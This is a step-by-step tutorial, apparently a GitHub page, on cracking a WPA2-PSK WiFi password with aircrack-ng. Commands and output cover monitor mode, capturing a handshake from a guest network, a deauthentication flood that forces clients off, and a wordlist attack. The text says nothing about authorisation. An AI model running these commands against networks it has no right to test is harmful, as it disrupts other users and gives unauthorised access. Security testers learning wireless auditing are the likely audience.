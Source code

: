 # Cracking WiFi WPA2-PSK2 with aircrack-ng

In order to crack WPA2-PSK2, you will need an adapter that can be put into Monitor mode. Most internal WiFi adapters cannot, so you will likely need a USB adapter. I use an [Alfa AUS036ACM](https://amzn.to/4dHXJ62) which works out of the box with Kali Linux. You can also view the full list of [supported adapters](https://www.aircrack-ng.org/doku.php?id=compatible_cards).

`lsusb` will show you connected USB devices. `ip a` or `ifconfig` will show you adapters. Finally `iwconfig` will show you WiFi adapters and whether or not they are in Monitor mode.

```sh
> iwconfig
lo        no wireless extensions.

eth0      no wireless extensions.

wlan0     IEEE 802.11  ESSID:off/any
          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:off
```

To view all WiFi APs in range, you can use `iwlist wlan0 scan`.

## Switching into Monitor Mode

```sh
sudo airmon-ng check kill
sudo airmon-ng start wlan0
```
Note that this changes `wlan0` to `wlan0mon`.

## Capturing Frames

```sh
sudo airodump-ng wlan0mon
```
Hit `CTRL+C` once you find the access point that you want to attack and note the BSSID and channel so that we can use it.

## Dump traffic from the access point

```sh
sudo airodump-ng --bssid C2:57:0B:9D:48:AE -c 9 --write spark.dump wlan0mon
```

Once a client connects, you will see `WPA handshake` at the top of the output. You can `CTRL+C` to quit.

```txt
CH  9 ][ Elapsed: 4 mins ][ 2024-08-12 18:05 ][ WPA handshake: C2:57:0B:9D:48:AE

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 C2:57:0B:9D:48:AE  -20 100     2326       65    0   9  360   WPA2 CCMP   PSK  Spark-Guest

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 C2:57:0B:9D:48:AE  F6:2B:45:62:2E:EE  -27    6e- 6e     0      721  EAPOL  Spark-Guest
Quitting...
```

If a client does not connect in a reasonable amount of time, you can kick everyone off the network by sending a `dauth` and having them reconnect. In another terminal window,

```sh
sudo aireplay-ng --deauth 100 -a C2:57:0B:9D:48:AE wlan0mon
```

When you are done, you will find five files created in the current directory. The `cap` file contains the captured handshake.

```txt
spark.dump-01.cap
spark.dump-01.csv
spark.dump-01.kismet.csv
spark.dump-01.kismet.netxml
spark.dump-01.log.csv
```

## Cracking the password

```sh
aircrack-ng -w /usr/share/wordlists/rockyou.txt -b C2:57:0B:9D:48:AE spark.dump-01.cap
```

This will go through the possibilities in the wordlist and use them to attempt to find the key which I have removed in the output below 😊.

```txt
                               Aircrack-ng 1.7

      [00:00:03] 17264/14344392 keys tested (6309.92 k/s)

      Time left: 37 minutes, 50 seconds                          0.12%

                           KEY FOUND! [ ******** ]


      Master Key     : 3C D2 15 84 1D B5 F5 26 F4 73 94 09 0F A0 C2 36
                       2A 87 69 E4 E8 2D FA 80 09 5B A3 75 D5 68 31 EE

      Transient Key  : A8 6C 34 59 6D 78 DD D4 0E DF 73 7E D9 4C 35 48
                       75 C2 E7 F3 FD E1 70 D2 8C 78 FF 9D BA EC 17 E9
                       4E 25 91 AA 2F 8E 03 4C BC 48 63 1A CB B9 48 00
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00

      EAPOL HMAC     : 1B BB D0 54 AF FB 0E 2B 77 DB 77 A4 62 27 DC 25
```

## Bringing the network back up

Once you are done, you will need to restart the network services that were killed and bring the network adapters back up.

```sh
sudo service NetworkManager restart
sudo airmon-ng stop wlan0mon
sudo ifconfig wlan0 up
ip a
```

